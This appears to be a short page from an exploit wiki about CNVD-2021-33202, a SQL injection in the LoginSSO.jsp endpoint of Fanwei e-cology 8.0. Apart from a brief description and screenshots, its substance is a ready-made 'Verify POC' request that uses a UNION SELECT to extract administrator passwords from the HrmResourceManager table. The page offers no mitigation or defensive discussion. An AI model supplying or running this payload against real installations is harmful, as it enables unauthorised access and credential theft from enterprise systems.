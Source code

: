 # Panwei OA E-Cology LoginSSO.jsp SQL injection vulnerability CNVD-2021-33202

## Vulnerability Description

Fanwei e-cology is an OA office system specially made for large and medium-sized enterprises, and supports PC, mobile and WeChat offices to work simultaneously.
Panwei e-cology has SQL injection vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Fanwei e-cology 8.0</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-20220313184449317.png)

Verify POC

```php
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636962109612-27c439fe-00a4-4d90-89ca-737b2ce98400.png)